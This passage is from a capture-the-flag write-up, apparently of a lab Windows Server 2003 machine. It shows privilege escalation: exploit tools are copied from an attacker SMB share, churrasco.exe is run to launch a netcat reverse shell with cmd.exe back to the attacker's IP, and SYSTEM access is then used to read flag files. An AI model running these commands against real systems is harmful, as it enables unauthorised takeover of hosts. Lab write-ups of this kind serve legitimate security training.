Now we need to copy the two files to the Windows system, but the directory "c:\windows\system32\inetsrv" is not writeable. Checking the various directories, I found the directory "C:\wmpub" to be writeable and copied the files to it.

```
C:\wmpub>echo "test" > test
echo "test" > test

C:\wmpub>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\wmpub

06/10/2021  07:23 AM    <DIR>          .
06/10/2021  07:23 AM    <DIR>          ..
06/10/2021  07:23 AM                 9 test
04/12/2017  05:05 PM    <DIR>          wmiislog
               1 File(s)              9 bytes
               3 Dir(s)  18,090,024,960 bytes free

C:\wmpub>del testt
del testt

C:\wmpub>copy \\10.10.16.173\share\nc.exe
copy \\10.10.16.173\share\nc.exe
        1 file(s) copied.

C:\wmpub>copy \\10.10.16.173\share\churrasco.exe 
copy \\10.10.16.173\share\churrasco.exe 
        1 file(s) copied.

C:\wmpub>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\wmpub

06/10/2021  07:25 AM    <DIR>          .
06/10/2021  07:25 AM    <DIR>          ..
06/10/2021  07:15 AM            31,232 churrasco.exe
06/10/2021  07:16 AM            59,392 nc.exe
04/12/2017  05:05 PM    <DIR>          wmiislog
               2 File(s)         90,624 bytes
               3 Dir(s)  18,089,922,560 bytes free

```
Once the files are copied, we need to run the exploit to get a connection with system privilege.

```
C:\wmpub>.\churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.16.173 1337"
.\churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.16.173 1337"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 684 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 700 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!

C:\wmpub>
```
As expected, a connection is received with SYSTEM privilege on our netcat listener.

```
$ nc -lvp 1337
listening on [any] 1337 ...
10.10.10.14: inverse host lookup failed: Unknown host
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.14] 1039
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

# Post-Exploitation

The Desktop folder inside the user and administrator directories contains the user and root flags.
```
meterpreter > cd Documents\ and\ Settings 
meterpreter > ls
Listing: c:\Documents and Settings
==================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-04-12 10:12:15 -0400  Administrator
40777/rwxrwxrwx  0     dir   2017-04-12 09:42:38 -0400  All Users
40777/rwxrwxrwx  0     dir   2017-04-12 09:42:38 -0400  Default User
40777/rwxrwxrwx  0     dir   2017-04-12 10:32:01 -0400  Harry
40777/rwxrwxrwx  0     dir   2017-04-12 10:08:32 -0400  LocalService
40777/rwxrwxrwx  0     dir   2017-04-12 10:08:31 -0400  NetworkService

meterpreter > cd Harry 
meterpreter > cd Desktop 
meterpreter > cat user.txt 
bd****************************69
meterpreter > cd ../..
meterpreter > cd Administrator 
meterpreter > cd Desktop 
meterpreter > cat root.txt 
93****************************7b
```